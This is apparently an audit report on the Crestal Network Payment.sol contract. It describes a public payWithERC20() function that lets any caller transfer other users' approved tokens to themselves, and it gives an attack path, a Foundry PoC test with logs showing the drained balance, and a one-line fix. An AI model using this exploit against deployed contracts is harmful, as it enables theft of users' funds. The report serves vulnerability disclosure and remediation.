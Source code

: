 ## Findings

## HIGH: Attacker can steal all tokens as a result of the payWithERC20() function being public

The function `payWithERC20()` on `payment.sol` is used to facilitate payments when creating agents and when user makes a top up.
The bug happens because this function is exposed to the public and as such can be called by anyone. **An attacker can call this function to steal any approved tokens from any address, since the attacker would be able to pass the fromAddress of their choice.**

### Root Cause

In Payment.sol the function `payWithERC20` is exposed to the public
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32
Note this is a public function and as such anyone can call this function.
Making this function a public function is the issue as it allows anyone to invoke it

### Internal Pre-conditions

    1. Victim has approved the contract to spend some of their tokens, which is common as we need approval to create agents

### Attack Path

    1. A user(ALICE) intends to interact with the contract in creating an agent
    2. Alice decides to approve the contract to spend some of her tokens(to avoid doing this every time, ALICE approves max(uint256)
    3. Attacker directly calls `payWithERC20()` passing ALICE address as the `fromAddress` and the `ATTACKER` address as the `toAddress` and Amount > 0
    4. since all the checks would pass, ALICE balance would be transfered to Attacker

### Impact

An attacker can steal all approved tokens from a given user. Since the caller can pass any address as the fromAddress, the attacker can pass any arbitrary address and steal all the tokens

When creating agent's users approve the contract to spend some tokens, if a user approves the contract to spend more than what they would need to create the agent eg max approvals, the attacker can steal any amount that was approved and has not been used yet.

### PoC

Add the following test to

```solidity
    function testStealApprovedTokens() public {
        uint256 validTokenAmount = 100 * 10 ** 18;
        address ALICE = makeAddr("ALICE");
        address ATTACKER = makeAddr("Attacker");
        mockToken.mint(ALICE, validTokenAmount);

        // Verify the mint
        uint256 balance = mockToken.balanceOf(ALICE);
        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");

        // Approve the blueprint contract to spend tokens directly from the test contract
        vm.prank(ALICE);
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(ALICE, address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");

        //log balances before
        console.log("alice balance before", mockToken.balanceOf(ALICE));
        console.log("attacker balance before", mockToken.balanceOf(ATTACKER));

        // test stealing after approval
        vm.prank(ATTACKER);
        blueprint.payWithERC20(address(mockToken), validTokenAmount, ALICE, ATTACKER);

        // check balance after stealing
        console.log("alice balance after", mockToken.balanceOf(ALICE));
        console.log("attacker balance after", mockToken.balanceOf(ATTACKER));
    }
```

The above test should result in the following

```
[PASS] testStealApprovedTokens() (gas: 100398)
Logs:
  alice balance before 100000000000000000000
  attacker balance before 0
  alice balance after 0
  attacker balance after 100000000000000000000
```

### Mitigation

Simply making the function as an internal one would fix the issue

```diff
-    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {
```

